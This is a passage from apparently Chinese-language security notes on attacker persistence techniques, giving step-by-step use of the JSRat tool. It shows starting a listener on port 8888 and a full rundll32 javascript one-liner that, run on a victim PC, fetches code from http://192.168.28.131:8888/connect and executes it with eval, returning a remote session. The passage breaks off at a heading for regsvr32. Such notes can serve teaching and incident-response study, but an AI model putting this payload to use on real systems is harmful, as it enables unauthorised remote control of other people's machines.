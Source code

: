 项目地址：[https://github.com/Hood3dRob1n/JSRat-Py.git](https://github.com/Hood3dRob1n/JSRat-Py.git)

步骤一：开始运行JSRat，监听本地8888端口。

![](../.gitbook/assets/20200413-12-1.png)

步骤二：通过url访问，可以查看恶意代码。

![](https://github.com/AppleTu/Emergency-Response-Notes/tree/48fb22e36edcdb442629c501e4581ae846370adf/第三章：权限维持篇/image/20200413-12-2.png)

复制代码如下：

```text
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.28.131:8888/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

步骤三：在受害者PC运行该代码，将成功返回一个会话，如下图所示：

![](../.gitbook/assets/20200413-12-3.png)

**13、regsvr32** 
